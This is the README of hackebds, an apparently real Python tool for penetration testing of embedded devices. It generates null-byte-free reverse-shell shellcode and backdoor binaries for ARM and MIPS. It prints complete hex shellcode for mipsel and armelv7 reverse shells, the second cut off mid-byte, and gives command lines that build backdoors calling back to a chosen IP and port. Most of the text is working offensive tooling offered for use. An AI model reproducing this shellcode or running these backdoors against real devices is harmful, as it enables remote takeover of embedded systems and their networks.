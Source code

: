 # introduction

## foreword

>In the process of penetration and vulnerability mining of embedded devices, many problems have been encountered. One is that some devices do not have telnetd or ssh services to obtain an interactive shell, and the other is that memory corruption vulnerabilities such as stack overflow are usually Null bytes are truncated, so it is more troublesome to construct reverse_shellcode, so this tool was developed to exploit the vulnerability. This tool is developed based on the PWN module and currently uses the python2 language

## fuction

This tool is embedded in the security test of the device. There are two main functions:

1.  Generate **backdoor programs** of various architectures. The backdoor program is packaged in shellless pure shellcode and is smal in size.**Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

2.  Generate **reverse_shell shellcode** of various architectures during the exploit process, and no null bytes, which facilitates the exploitation of memory corruption vulnerabilities on embedded devices. **Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

## install (1)  Highly recommended！！Because the source code compilation may not be updated in time
**pip install hackebds**
```
pip install hackebds
....
Defaulting to user installation because normal site-packages is not writeable
Collecting hackebds
  Downloading hackebds-0.0.3-py2-none-any.whl (11 kB)
Installing collected packages: hackebds
Successfully installed hackebds-0.0.3
>>> import hackebds
>>> dir(hackebds)
['__builtins__', '__doc__', '__file__', '__name__', '__package__', '__path__', 'aarch64', 'arm', 'extract_shellcode', 'mips']
>>> 
```
You can view the function through the dir function

![iShot2022-04-29_13.14.39.png](./img/iShot2022-04-29_13.14.39.png)

```
 'Corefile', 'armebv5_backdoor', 'armebv5_reverse_sl', 'armebv7_backdoor', 'armebv7_reverse_sl', 'armelv5_backdoor', 'armelv5_reverse_sl', 'armelv7_backdoor', 'armelv7_reverse_sl', 'asm', 'atexception', '
```
#### Instructions for use

​	To use the generated backdoor or reverse_shellcode, you need to specify the ip address, port number, assembly architecture, endian （Default is armv7）

​	**Here is the example that generates reverse_shellcode without null bytes**

```
>>> mips.mipsel_reverse_sl("127.0.0.1",4444)
[+] No NULL byte shellcode for hex(len is 264):
\xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xee\xa3\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01
>>> arm.armelv7_reverse_sl("127.0.0.1",4444)
[+] No NULL byte shellcode for hex(len is 226):
\x04\x40\x24\xe0\x7f\x70\xa0\xe3\x28\x70\x4d\xe5\x07\x70\x27\xe0\x27\x70\x4d\xe5\x07\x70\x27\xe0\x26\x70\x4d\xe5\x01\x70\xa0\xe3\x25\x70\x4d\xe5\x02\x70\xa0\xe3\x2c\x70\x4d\xe5\x2b\x40\x4d\xe5\x11\x70\xa0\xe3\x2a\x70\x4d\xe5\x5c\x70\xa0\xe3\x29\x70\x4d\xe5\x14\x40\x4d\xe5\x68\x70\xa0\xe3\x15\x70\x4d\xe5\x73\x70\xa0\xe3\x16\x70\x4d\xe5\x2f\x70\xa0\xe3\x17\x70\x4d\xe5\x6e\x70\xa0\xe3\x18\x70\x4d\xe5\x69\x70\xa0\xe3\x19\x70\x4d\xe5\x62\x70\xa0\xe3\x1a\x70\x4d\xe5\x2f\x70\xa0\xe3\x1b\x70\x4d\xe5\x1b\x40\x4d\xe2\x2c\x50\x4d\xe2\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x4f\xf0\x02\x01\x08\x46\x4f\xf0\x01\x01\x82\xea\x02\x02\x4f\xf0\xc8\x07\x07\xf1\x51\x07\x01\xdf\x06\x46\x29\x46\x4f\xf0\x10\x02\x07\xf1\x02\x07\x01\xdf\x30\x46\x81\xea\x01\x01\x4f\xf0\x3f\x07\x01\xdf\x30\x46\x01\xf1\x01\x01\x01\xdf\x30\x46\x01\xf1\x01\x01\x01\xdf\x20\x46\x81\xea\x01\x01\x82\xea\x02\x02\x03\xb4\x69\x46\x4f\xf0\x0b\x07\x01\xd
```
![iShot2022-04-29-20.57.34](./img/iShot2022-04-29-20.57.34.png)

**This is the usage list for generating the backdoor file of the corresponding schema**
```
Python 2.7.17 (default, Mar 18 2022, 13:21:42) 
[GCC 7.5.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from hackebds import *
>>> mips.mipsel_backdo	or("127.0.0.1",4444)
mipsel_backdoor is ok in current path ./
>>> arm.armelv7_backdoor("127.0.0.1",4444)
backdoor_armelv7 is ok in ./
>>> arm.armelv7_reverse_sl("127.0.0.1",4444)
``` 
![iShot2022-04-29-20.58.35](./img/iShot2022-04-29-20.58.35.png)
## install (2)
  python2 install pwn
```
pip install pwn
```

​	This tool is developed in python language, so converting python to ELF can be done through **nuitka**

```shell
nuitka hackEmbedded_tool.py
```

​	If possible, put the modules that generate various backdoors and reverse_shellcode under python's site-packages

```
sudo cp ./generate_* {your_dir}/site-packages
sudo cp ./extract_shellcode.py {your_dir}/site-packages
```

You can view the path in sys.path under the python terminal

```
Python 2.7.17 (default, Mar 18 2022, 13:21:42) 
[GCC 7.5.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> sys.path
```

## Instructions for use for "install (2)"

​	To use the generated backdoor or reverse_shellcode, you need to specify the ip address, port number, assembly architecture, endian （Default is armv7）

​	**Here is the example that generates reverse_shellcode without null bytes**

```
hackEmbedded_tool -reverse_ip 192.168.7.1 -reverse_port 444 -arch arm -endian little -exploit_shellcode 1
```
![image-20220428161403858](./img/image-20220428161403858.png)

**This is the usage list for generating the backdoor file of the corresponding schema**
```
hackEmbedded_tool -reverse_ip 192.168.7.1 -reverse_port 444 -arch arm -endian little -backdoor_file 1
```

![image-20220428161757170](./img/image-20220428161757170.png)

**You can view tool information with -h**

![image-20220428161847829](./img/image-20220428161847829.png)

## chips and architectures
Tests can leverage chips and architectures

Mips:
MIPS 74kc V4.12 big endian
MIPS 24kc V5.0  little endian

Armv7:
Allwinner(全志)V3s

Armv8:
Qualcomm Snapdragon 660

## One-click build environment

To be added
